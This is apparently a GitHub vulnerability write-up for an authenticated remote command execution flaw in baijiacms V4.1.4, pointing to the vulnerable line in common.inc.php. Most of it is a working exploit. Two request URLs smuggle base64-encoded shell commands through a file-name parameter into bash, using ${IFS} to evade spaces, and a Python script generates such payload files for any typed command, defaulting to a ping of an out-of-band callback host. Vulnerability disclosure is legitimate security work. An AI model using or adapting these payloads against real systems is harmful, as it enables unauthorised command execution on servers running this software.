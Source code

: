 # baijiacms-RCE
baijiacms background RCE


The address of the project: https://github.com/baijiacms/baijiacmsV4

Version: V4.1.4 20170105 FINAL

Environment:
+ php 5.5.38
+ nginx 1.15
+ mysql 5.7.27
+ 20.04.1 - Ubuntu



Leak point in  includes/baijiacms/common.inc.php
Line 654.

![图片](https://user-images.githubusercontent.com/51741690/202916918-cb2b4576-d20b-4033-9fd4-da7cf3e4bff9.png)



# Use it
The system is designed to compress images. Therefore, to take advantage of this vulnerability, you need to log in to the background first and set the image compression ratio in "Attachment Settings", otherwise the code cannot run here.

![图片](https://user-images.githubusercontent.com/51741690/202916939-4b14710d-5528-4b78-89a1-6afdb18de143.png)



EXP1：http://192.168.0.64/baijiacmsV4-4.1.4/index.php?mod=site&act=public&do=file&op=fetch&url=http://127.0.0.1/poc.;echo${IFS}cGluZyBwb2MuZXhyNm1xLmNleWUuaW8gLWMgNA==|base64${IFS}-d|bash;&status=1&beid=1
![图片](https://user-images.githubusercontent.com/51741690/202916957-60d79a4a-f01e-4e89-9a6c-4d9e13c733eb.png)




EXP2：http://192.168.0.64/baijiacmsV4-4.1.4/index.php?mod=site&act=public&do=file&op=fetch&url=http://127.0.0.1/whoami.;echo${IFS}d2hvYW1p|base64${IFS}-d|bash;&status=1&beid=1
![图片](https://user-images.githubusercontent.com/51741690/202916979-b8c559ac-a262-4d58-9494-1341d12b3d80.png)



The poc can be generated using the following code, and then open the web service to ensure that the file is accessible.

```python
import base64

webpath = "/home/ubuntu/test/"
print("exr6mq.ceye.io")
cmd = input("cmd>>> ") or "ping php2.exr6mq.ceye.io"


b64cmd = base64.b64encode(cmd.encode()).decode()

payload = f"echo {b64cmd}|base64 -d|bash"

print(payload)
payload = payload.replace(' ','${IFS}')
print(payload)

name = input("name>>>")
payload = f"{name}.;{payload};"
print(payload)

with open(file=webpath+payload,mode='w')as f:
    f.write('1')

```
